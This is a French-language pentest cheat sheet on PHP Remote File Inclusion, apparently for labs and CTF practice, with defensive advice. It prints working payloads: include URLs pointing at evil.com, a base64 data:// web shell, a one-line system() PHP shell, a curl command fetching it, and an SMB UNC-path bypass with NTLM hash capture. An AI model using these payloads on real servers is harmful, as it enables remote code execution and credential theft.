

# RFI — Remote File Inclusion

> [!info] **En 1 phrase**
> RFI = amener le serveur à **inclure un fichier distant** qu'on contrôle via `include($url)` →
> **RCE quasi immédiat** — mais rare car `allow_url_include` est **Off par défaut** depuis PHP 5.

---

## Concept



> [!info] **Pourquoi ça marche**
> Si `allow_url_include = On`, PHP fait `include("http://evil.com/shell.txt")` : le contenu
> téléchargé est **interprété comme du PHP** → exécution de notre payload. Même si le serveur
> attaquant sert le fichier en `text/plain`, seule la partie `<?php ... ?>` compte.

```php
<?php
$file = $_GET['page'];
include($file);   // vulnérable : RFI si allow_url_include = On
?>
```

```ini
; php.ini — contrôle des includes distants
allow_url_include = On
allow_url_fopen = On
```

---

## Payloads

```url
page=http://evil.com/shell.txt
page=https://evil.com/shell.txt
page=http://evil.com/shell.txt%00
page=http:%252f%252fevil.com%252fshell.txt        # double encodage
page=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUW2NdKTs/Pg==&c=id
```

`shell.txt` servi sur le serveur attaquant :

```php
<?php system($_GET['c']); ?>
```

```bash
# Serveur HTTP simple pour servir le payload
python3 -m http.server 80
# Puis : curl 'http://target/index.php?page=http://evil.com/shell.txt&c=id'
```

> [!tip] Même si le serveur de l'attaquant sert le `.txt` en `text/plain`, PHP l'inclut et
> l'interprète : seule la partie `<?php ... ?>` compte pour le moteur.

---

## Bypass `allow_url_include = Off` — partage SMB (Windows)

> Même avec `allow_url_include` **et** `allow_url_fopen` désactivés, un include distant marche
> sur une cible Windows via le protocole **smb** : `\\IP\share\shell.php`.

```text
1. Créer un partage ouvert à tous sur une machine Windows attaquante
2. Y placer le fichier shell.php
3. Inclure l'UNC path :
```

```url
page=\\10.0.0.1\share\shell.php
```

> [!tip] **Bonus NTLM capture** : un UNC path peut aussi forcer le serveur à
> **s'authentifier** sur notre partage → capture de hashes **NTLM** (relay/offline).

---

## LFI vs RFI — rappel

| Critère | LFI | RFI |
|---|---|---|
| Fichier inclus | **Local** (disque du serveur) | **Distant** (URL qu'on contrôle) |
| Condition PHP | `allow_url_include` **pas nécessaire** | `allow_url_include = On` (Off par défaut depuis PHP 5) |
| Impact immédiat | Lecture / source / RCE conditionnel | RCE quasi direct |
| Difficulté | Moyenne (connaître les chemins, wrappers) | Faible si activé, souvent bloqué par la config |
| Fréquence | Très fréquent | Rare (désactivé par défaut) |

---

## Détection & Défense

| Réponse | Détail |
|---|---|
| **Supprimer les paramètres de fichiers** | Ne jamais exposer `page=`, `file=` depuis l'input ; utiliser des **ID** mappés côté serveur |
| **Allow-list** | N'accepter que des noms de fichiers **connus**, jamais de chemin utilisateur |
| **`allow_url_include = Off`** | Défaut depuis PHP 5 — le garder désactivé (et `allow_url_fopen` si possible) |
| **Canonicalisation** | `realpath()` + vérifier que le résultat **commence par** le dossier autorisé |
| **Surveillance** | Logs des patterns `http://`, `data://`, `\\`, `evil.com` dans les requêtes |

## Tips & Pièges

> [!warning] `allow_url_include = Off` par défaut**
> RFI échoue sur la plupart des cibles modernes. Tester d'abord : `data://`, `php://input`,
> ou basculer sur [[LFI - Local File Inclusion| LFI]] (wrappers + log poisoning) qui ne dépendent pas de cette option.

> [!tip] **Windows + SMB : le bypass sans `allow_url_include`**
> Le partage **SMB/UNC** (`\\IP\share\shell.php`) fonctionne sur Windows même avec
> `allow_url_include` et `allow_url_fopen` désactivés.

> [!tip] **Le `%00` (null byte)**
> Utile si l'app concatène une extension (`shell.txt.php`). Ne marche que sur **PHP < 5.3.4**.

---

## Labs

- PortSwigger — File inclusion : https://portswigger.net/web-security/all-labs#file-inclusion
- Root-Me — RFI : https://www.root-me.org/

---

> [!info] **Sources**
> - [PayloadsAllTheThings — File Inclusion](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion)

**Liens :** [[LFI et RFI| Hub LFI/RFI]] · [[LFI - Local File Inclusion| LFI]] · [[Path Traversal| Path Traversal]] · [[Injection de commandes| Injection de commandes]] · [[03 - Exploitation Web| Exploitation Web]] · [[Bibliothèque technique| Index]]
